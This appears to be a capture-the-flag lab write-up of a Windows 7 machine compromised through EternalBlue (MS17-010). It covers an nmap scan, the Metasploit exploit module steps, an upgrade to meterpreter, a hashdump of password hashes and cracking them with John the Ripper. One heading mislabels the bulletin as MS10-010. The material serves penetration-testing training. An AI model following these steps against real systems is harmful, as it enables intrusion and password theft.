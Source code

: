 #Windows #EternalBlue

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.33.86
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 135/tcp msrpc Microsoft Windows RPC

![image](https://user-images.githubusercontent.com/99097743/171191732-73be2919-4881-4759-bf5a-eeb8b8460a9a.png)

* 139/tcp open  netbios-ssn Windows 7 Professional 7601 Service Pack 1 netbios-ssn

![image](https://user-images.githubusercontent.com/99097743/171191815-76b01734-be5b-4a75-b7d8-deaf07334a2d.png)

* 139/tcp open  netbios-ssn Windows 7 Professional 7601 Service Pack 1 netbios-ssn

![image](https://user-images.githubusercontent.com/99097743/171191940-4d44c027-59e1-45af-9635-fa1d279731d2.png)

* 3389/tcp open  ssl/ms-wbt-server?

![image](https://user-images.githubusercontent.com/99097743/171192028-c0d68993-f0d4-435b-bf66-4ecbf95e6992.png)


**MS10-010 KNOWLEDGE BASE**

Reference: https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/smb/ms17_010_eternalblue

ms17_010_eternalblue is a remote exploit against Microsoft Windows, originally written by the Equation Group (NSA) and leaked by Shadow Brokers (an unknown hacking entity). It is considered a reliable exploit and allows you to gain access not only as SYSTEM - the highest Windows user mode privilege, but also full control of the kernel in ring 0. In modern day penetration tests, this exploit can be used in internal and external environments.

As far as remote kernel exploits go, this one is highly reliable and safe to use.

The check command of ms17_010_eternalblue is also highly accurate, because Microsoft's patch inadvertently added an information disclosure with extra checks on vulnerable code paths.

This exploit works against a vulnerable SMB service from one of these Windows systems:

* Windows XP x86 (All Service Packs)
* Windows 2003 x86 (All Service Packs)
* Windows 7 x86 (All Service Packs)
* Windows 7 x64 (All Service Packs)
* Windows 2008 R2 x64 (All Service Packs)
* Windows 8.1 x64
* Windows Server 2012 R2 x64
* Windows 10 Pro x64 (< Version 1507)
* Windows 10 Enterprise Evaluation x64 (< Version 1507)

To determine whether the machine is vulnerable, you will have to either examine the system's patch level, or use a vulnerability check.

**GAIN FOOTHOLD**

We can now use `metasploit` to gain access. Here are the steps:

```sh
msfconsole
search eternalblue
use windows/smb/ms17_010_eternalblue
show options
set RHOSTS
set LHOST
run
```

![image](https://user-images.githubusercontent.com/99097743/171214941-056ec471-839f-4e63-829a-d382224b9803.png)


**ESCALATE**

We need to upgrade the shell from the command line to a more functional meterpreter. 

First, let's background the session by clicking `CTRL+Z`. You can see the active session with the `sessions` command:

![image](https://user-images.githubusercontent.com/99097743/171216893-e2977fe8-1f18-4294-bfca-a7b113bd62a4.png)

Now we need search for `shell_to_meterpreter`

![image](https://user-images.githubusercontent.com/99097743/171218485-79849cf9-a5c1-42dc-9387-c2c2e0673a92.png)

Please make sure the session info is updated: `set SESSION 1`

![image](https://user-images.githubusercontent.com/99097743/171218893-6f197426-71fd-43b4-94fb-0e82ba1cc9e8.png)

We can now list the sessions and select Session 2 for the rest of the lab:

![image](https://user-images.githubusercontent.com/99097743/171219818-c114247f-de7c-48b7-86fc-38e6e2590750.png)

**CRACKING**

`hashdump` command will dump all of the passwords on the machine as long as we have the correct privileges to do so.

![image](https://user-images.githubusercontent.com/99097743/171225571-382756c2-7d5f-4b85-aa8c-8b512b4f4a50.png)

We can crack the password using **John the Ripper**. Please make sure to include `--format=NT` here:

![image](https://user-images.githubusercontent.com/99097743/171227324-e3b7b13c-b2d5-49b6-b06e-0c81980c7a51.png)

**FLAGS**

Flag #1

![image](https://user-images.githubusercontent.com/99097743/171230327-a4df5672-e3f5-44f5-967c-46bef0cd094c.png)

Flag #2: Located where passwords are stored within Windows (SAM)

![image](https://user-images.githubusercontent.com/99097743/171230730-18af3044-fd5e-4208-b8bf-d8e83fe77f33.png)


